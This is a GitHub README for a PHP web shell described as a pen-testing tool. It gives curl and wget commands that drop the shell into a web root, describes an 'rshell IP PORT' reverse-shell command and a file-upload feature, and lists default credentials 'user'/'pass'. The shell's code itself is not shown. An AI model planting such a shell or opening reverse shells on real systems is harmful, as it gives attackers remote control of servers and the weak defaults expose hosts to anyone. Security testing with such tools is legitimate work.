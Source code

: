# php-shell
A simple, intuitive, feature rich, php web shell for pen testing.

### Usage

To download use one of the following (or similar)

```bash
curl https://github.com/eb3095/php-shell/raw/master/php-shell.php > /var/www/html/php-shell.php
```

```bash
wget https://github.com/eb3095/php-shell/raw/master/php-shell.php -O /var/www/html
```

From there just visit the website with /php-shell.php at the end and enjoy your web based shell from the host!

### Controls

* Arrow Up: History up
* Arrow Down: History down
* Enter: Run command
* Click Anywhere: Focus command prompt

History is not saved across sessions and is stored locally in the browser for the time being.

### Commands

* exit: Log out
* cd: Change directory
* cls: Clear the screen
* rshell: "rshell IP PORT" open a remote shell to the specified address
* upload: Showns a file prompt then uploads the file to the current directory

cd is unique here. If you do the following,

```bash
cd /home; ls
```

This will be executed as a SH/BASH command. The cd will not set the current working directory outside of the exec. However,

```bash
cd /home
```

This will be executed as an internal command setting the PHP cwd and it is permanent (until refresh).

### Credentials

The defaults are,

* Username: user
* Password: pass

The username and password are both hashed via sha512 and set in the file directly.

### Screenshot

![Screenshot2](https://github.com/eb3095/php-shell/raw/master/screenshot2.png)

![Screenshot](https://github.com/eb3095/php-shell/raw/master/screenshot.png)